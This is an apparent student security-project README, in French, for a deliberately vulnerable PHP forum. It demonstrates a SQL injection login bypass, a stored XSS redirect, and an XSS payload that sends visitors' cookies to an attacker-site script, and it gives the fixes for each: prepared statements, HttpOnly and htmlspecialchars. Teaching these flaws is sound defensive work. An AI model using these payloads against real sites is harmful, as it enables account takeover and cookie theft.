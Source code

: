# Projet-web-secu
**Ecole**: IMT Atlantique.
Dans le cadre de ce projet, nous sommes partie d’un site web que j’ai développée en PHP sur laquelle j’ai exploré les possibles failles qu’elle pourrait contenir.

L’application est un forum de discussion informatique. qui offre la possibilité de s’authentifier, de soumettre des sujets et desmessages.

**Outils**: PHP, HTML, CSS, MySQL, PHPMYADMIN

**Pré-requis:**

    - installer [WampServer](https://www.wampserver.com/)
    - mettre tous les 3 repertoires (siteattaquant, myforum et myforumsecu) à la racine du rempertoire www de wamp (e.g sur windows: `C:\wamp64\www`)
    - importer la base de données `myforum.sql` dans phpmyadmin
## Mise en évidence d’une faille d’injection SQL

Pour contribuer au forum c’est-à-dire réponndre créer un sujet, ecrire un message, l’on a besoin de se connecter avec un pseudo et un mot de mot de passe. 
Ici nous verons que même un utilisateur qui n’a pas de compte peut se connecter fraduleusement et causer des degâts  avec de l’injection SQL dans la page de login.

Dans la page de connexion nous rentrons le pseudo d’un utilisateur existant toto par exemple et password qui n’est pas celle de l’utilisateur toto: " or ""="
et on vois que nous sommes connectés comme etabt l’utilisateur toto. Ce qui nous permet de créer des sujets en tant que utilisateur toto

![](https://github.com/ang67/Projet-secu-webapp/blob/main/img/1.png)

## Solution

Dans la version sécurisé du site (http://localhost/myforumsecu) nous avons utliser les réquêtes préparées dans le code qui êrmet de se connecter (`loger.php`) pour palier ce problème.
l’ancienne ligne:
`$result =$id_con->query('SELECT * FROM users WHERE id_user="'.$pseudo.'" AND passwd="'.$pass.'" ') ;`
devient:

`$result = $id_con->prepare("SELECT * FROM users where id_user = :pseudo AND passwd = :pass");`
`$result -> execute(array('pseudo' => $pseudo, 'pass' => $pass));`

## Mise en évidence de la faille XSS

Dans la version non sécurisée du site (http://localhost/myforum) mettons dans le champs de commentaire le message `<u>hello attaquant</u>`

On constate que la mise en forme html est faite. On se retrouve donc avec hello attaquant. Le plus gros problème est que cette faille est persistante, car inscrite dans la base de données.

Ayant connaissance de cette faille, l'attaquant pourrait casser la structure du site. Comme nous le montrerons ici en injectant du code javascript faisant une redirection vers le site google.com.

`<script>document.location="https://www.google.com"</script>`

On constate qu’à chaque ouverture du sujet contenant le code injecté il y a une redirection automatique vers google.com. Ce qui est inquiétant c’est que cela reste permanent.

## Exploitation de la faille

Essayons d’exploiter cette faille pour voler des cookies qui dans un cas précis pourrait permettre à un attaquant de s'attribuer des rôles plus élevés que prévu.

Ici nous allons écrire un code PHP (https://github.com/ang67/Projet-secu-webapp/tree/main/siteattaquant/index.php) permettant de récupérer les cookies des utilisateurs.
Ce code se trouve peut se trouver sur un autre serveur distant (celui de l’attaquant par exemple https://github.com/ang67/Projet-secu-webapp/tree/main/siteattaquant ). Dans ce code on récupère les cookies, puis on les stocke et enfin, on redirige l’utilisateur vers l’accueil comme si rien ne s’était passé. Pour notre exemple le site a décidé de sauvegarder les mots de passe et login pour permettre de se souvenir de l’utilisateur lors d’une nouvelle connection.

Maintenant l’attainjectons un code javascript dans un message ou dans un sujet qui redirige vers le code PHP malveillant.

`<script>document.location="http://localhost/siteattaquant?cookie="+document.cookie;</script>`

![](https://github.com/ang67/Projet-secu-webapp/blob/main/img/2.png)

Maintenant l’attaquant a réussi son coup et s’attend à recoter le buttin. Si un l’utilisateur se connect en accèptant que le site se souvienne de lui, ou pour d’autres cookies par exemple, l’attaquant récupère alors toutes ces données sensibles dans un repertoire (`C:\wamp64\www\siteAttaquant\stolen_data.txt`) lors de sa visite sur la page contenant le code injecté.

![](https://github.com/ang67/Projet-secu-webapp/blob/main/img/3.png)

![](https://github.com/ang67/Projet-secu-webapp/blob/main/img/4.png)

![](https://github.com/ang67/Projet-secu-webapp/blob/main/img/5.png)

## Solution

 Dans la version sécurisée du site (http://localhost/myforumsecu) nous avons

  - protégé les cookies en ajoutant l'attribut ***HttpOnly***
  - utilisé la méthode ***htmlspecialchars*** avec le flag *ENT_IGNORE* pour remplacer tous les caractères HTML. (https://www.php.net/manual/fr/function.htmlspecialchars.php)



